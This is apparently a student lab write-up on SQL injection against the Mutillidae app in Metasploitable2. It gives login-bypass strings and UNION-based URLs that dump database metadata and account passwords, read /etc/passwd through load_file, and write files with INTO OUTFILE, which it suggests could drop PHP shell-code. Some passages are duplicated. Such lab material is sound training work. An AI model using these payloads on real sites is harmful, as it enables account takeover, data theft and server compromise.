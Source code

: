 # EXP-8- sqlinjection
Exploiting SQL Injection vulnerability

# AIM:
To exploit SQL Injection vulnerability using Multidae web application in Metasploitable2

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode


### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
SQL Injection is a sort of infusion assault that makes it conceivable to execute malicious SQL statements. These statements control a database server behind a web application. Assailants can utilize SQL Injection vulnerabilities to sidestep application safety efforts. They can circumvent authentication and authorization of a page or web application and recover the content of the whole SQL database. Identify IP address using ifconfig in Metasploitable2

![image](https://github.com/1808charitha/sqlinjection/assets/132996838/fcff12b8-2fac-4c61-b1bc-e92d5bb0be95)
Use the above ip address to access the apache webserver of Metasploitable2 from kali linux. In Kali Linux use the ip address in a web browser. 
![image](https://github.com/1808charitha/sqlinjection/assets/132996838/b76879fa-4a43-4d8f-b16f-4f2f31159979)
Select Multidae from the menu listed as shown above. You will get the page as displayed below:
![image](https://github.com/1808charitha/sqlinjection/assets/132996838/c1280ee0-adad-409e-bc71-7d79e99df9a1)
Click on the menu Login/Register and register for an account
![image](https://github.com/1808charitha/sqlinjection/assets/132996838/342afadd-8209-41ee-b110-955d18d1f9dd)
Click on the link “Please register here”
![image](https://github.com/1808charitha/sqlinjection/assets/132996838/e44d8f2a-58a7-41cd-aa87-44104c4f9b6c)
Click on “Create Account” to display the following page:
![image](https://github.com/1808charitha/sqlinjection/assets/132996838/4b4feb62-6691-4265-bb47-c639720bb930)
The login structure we will use in our examples is straightforward. It contains two input fields (username and password), which are both vulnerable. The back-end content creates a query to approve the username and secret key given by the client. Here is an outline of the page rationale:

($query = “SELECT * FROM users WHERE username=’$_POST[username]’ AND password=’$_POST[password]’“;). For the username put “ganesh” or “anything” and for the password put (anything’ or ‘1’=’1) or (admin’ or ‘1’=’1) then try to log in, and you’ll be presented with an admin login page.

![image](https://github.com/1808charitha/sqlinjection/assets/132996838/ade3a828-92d0-4f6d-94e4-00fad6808a6b)
Click “Login”. The logged in page will show as below:
![image](https://github.com/1808charitha/sqlinjection/assets/132996838/5950938d-b720-410e-ba3f-eef14b065fdc)
##Bypassing login field

The username field is vulnerable. Put (ganesh’ #) or (ganesh’--) in the username field and hit “Enter” to log in. We use “#” or “--” to comment everything in the query sentence that comes after the username filed telling the database to disregard the password field: (SELECT * FROM users WHERE username=’admin’ # AND password=’ ‘). By using line commenting, the aggressor eliminates a part of the login condition and gains access. This technique will make the “WHERE” clause true only for one user; in this case, it is “ganesh.”

Now after logging out you will see the login page. In the login page give ganesh’ # . You can see the page now enters into the administrator page as before when giving the password.

![image](https://github.com/1808charitha/sqlinjection/assets/132996838/eb69f220-af20-4bd3-aac9-45731f6623ba)
Click the login button and you will see it enter into the administrator page.
![image](https://github.com/1808charitha/sqlinjection/assets/132996838/58ea7d70-1a83-4ef1-9201-df9365199229)
Union-based SQL injection
UNION-based SQL injection assaults enable the analyzer to extract data from the database effectively. Since the “UNION” operator must be utilized if the two inquiries have precisely the same structure, the attacker must craft a “SELECT” statement like the first inquiry. we will be using the “User Info” page from Mutillidae to perform a Union-Based SQL injection attack. Go to “OWASP Top 10/A1 — Injection/SQLi — Extract-Data/User Info”

After logging out, Now choose the menu as shown below: img
![image](https://github.com/1808charitha/sqlinjection/assets/132996838/7dec9c8e-70e1-49b0-9997-748d45f81836)
![image](https://github.com/1808charitha/sqlinjection/assets/132996838/c3a3ca3d-6b73-4fac-aa62-7aa952d8cfa2)
![image](https://github.com/1808charitha/sqlinjection/assets/132996838/a7ea6b3c-10d0-4bb9-9985-934d2cf2b624)
![image](https://github.com/1808charitha/sqlinjection/assets/132996838/e6660171-7b81-40b3-8722-a22710700922)
![image](https://github.com/1808charitha/sqlinjection/assets/132996838/ccb96ae8-0976-43f0-bf12-442b0d1614e5)
From this point, all our attack vectors will be performed in the URL section of the page using the Union-Based technique.There are two different ways to discover how many columns are selected by the original query. The first is to infuse an “ORDER BY” statement indicating a column number. Given the column number specified is higher than the number of columns in the “SELECT” statement, an error will be returned.
![image](https://github.com/1808charitha/sqlinjection/assets/132996838/43c86048-1c5e-464b-a19c-2c2a2ff3d350)
![image](https://github.com/1808charitha/sqlinjection/assets/132996838/4d9bd9f4-e670-4a84-9b1b-2083b9177f8b)
Since we do not know the number of columns, we start at 1. To find the exact amount of columns, the number is incremented until an error related to the “ORDER BY” clause is returned. In this example, we incremented it to 6 and received an error message, so it means that the number of columns is lower than 6.

The browser url of this info page need to be modified with the url as below:
http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27order%20by%206%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/1808charitha/sqlinjection/assets/132996838/e09c7e21-04dc-44a0-830e-ee3050ef1853)
After adding the order by 6 into the existing url , the following error statement will be obtained:
![image](https://github.com/1808charitha/sqlinjection/assets/132996838/40973f2a-4e71-4e86-8a77-bc924b923e38)
When we ordered by 5, it worked and displayed some information. It means there are five columns that we can work with. Following screenshot shows that the url modified to have statement added with ordered by 5 replacing 6.
![image](https://github.com/1808charitha/sqlinjection/assets/132996838/29d84c00-8fca-47f3-9cbf-6be038749af0)
As it is having 5 columns the query worked fine and it provides the correct result
![image](https://github.com/1808charitha/sqlinjection/assets/132996838/e44c1e18-013b-4df5-be49-721d0d54aea4)
Instead of using the "order by" option, let’s use the "union select" option and provide all five columns. Ex: (union select 1,2,3,4,5)
![image](https://github.com/1808charitha/sqlinjection/assets/132996838/9eb7e918-d3ce-4f18-9e1b-97fdbeb3fbde)
As given in the screenshot below columns 2,3,4 are usable in which we can substitute any sql commands to extract necessary information.
![image](https://github.com/1808charitha/sqlinjection/assets/132996838/c4863a6c-a2cb-4172-86a9-5680bbf7a05c)
Now we will substitute some few commands like database(), user(), version() to obtain the information regarding the database name, username and version of the database.

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,database(),user(),version(),5%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/1808charitha/sqlinjection/assets/132996838/e88fc598-552d-4452-b166-74c6de989bdf)
The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5. In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one: union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/1808charitha/sqlinjection/assets/132996838/397dcc26-1e50-4a3d-a29c-925f1708255d)
The url once executed will retrieve table names from the “owasp 10” database. ##Extracting sensitive data such as passwords

When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.
![image](https://github.com/1808charitha/sqlinjection/assets/132996838/4b2bc819-ead6-46e5-a2af-f0ad5f8c06b2)
The column names of the accounts is displayed below for the following url:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/1808charitha/sqlinjection/assets/132996838/af021188-9259-429b-8af2-e1e710eb6b45)
The url once executed will retrieve table names from the “owasp 10” database. ##Extracting sensitive data such as passwords

When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.
![image](https://github.com/1808charitha/sqlinjection/assets/132996838/20d94dd5-486d-4b9d-ab2a-14f77c5f6a0c)
The column names of the accounts is displayed below for the following url:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/1808charitha/sqlinjection/assets/132996838/7a368f02-71ae-47bb-ae84-c12cfe7f624c)
Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/1808charitha/sqlinjection/assets/132996838/d46483e0-2a60-43d3-81fe-968d19b6677d)
Reading and writing files on the web-server
We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/1808charitha/sqlinjection/assets/132996838/14c40630-fcd7-4006-9e5b-ffc1c5317bbd)
the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server. Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).





## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.
